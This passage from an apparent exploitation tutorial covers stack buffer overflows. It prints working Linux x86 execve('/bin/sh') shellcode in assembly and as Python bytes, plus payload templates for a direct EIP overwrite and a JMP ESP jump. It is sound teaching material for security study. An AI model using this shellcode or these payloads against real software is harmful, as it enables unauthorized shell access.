 ### Shellcode

Machine code that spawns a shell or performs actions.

```nasm
; Linux x86 execve("/bin/sh") shellcode
xor eax, eax
push eax
push 0x68732f2f  ; "//sh"
push 0x6e69622f  ; "/bin"
mov ebx, esp
push eax
push ebx
mov ecx, esp
mov al, 0x0b
int 0x80
```

**Shellcode in Python:**

```python
# Linux x86 execve /bin/sh shellcode (23 bytes)
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    b"\x53\x89\xe1\xb0\x0b\xcd\x80"
)
```

## Exploitation Techniques

### 1. Direct EIP Overwrite

Overwrite return address with shellcode location.

```python
offset = 112
eip = struct.pack("<I", 0xbffff7a0)  # Address of shellcode
nops = b"\x90" * 100
shellcode = b"\x31\xc0..."

payload = b"A" * offset + eip + nops + shellcode
```

### 2. JMP ESP Technique

Jump to ESP register containing shellcode.

```python
# Find JMP ESP instruction
# Using msfvenom or ROPgadget
jmp_esp = struct.pack("<I", 0x12345678)

payload = b"A" * offset + jmp_esp + shellcode
```
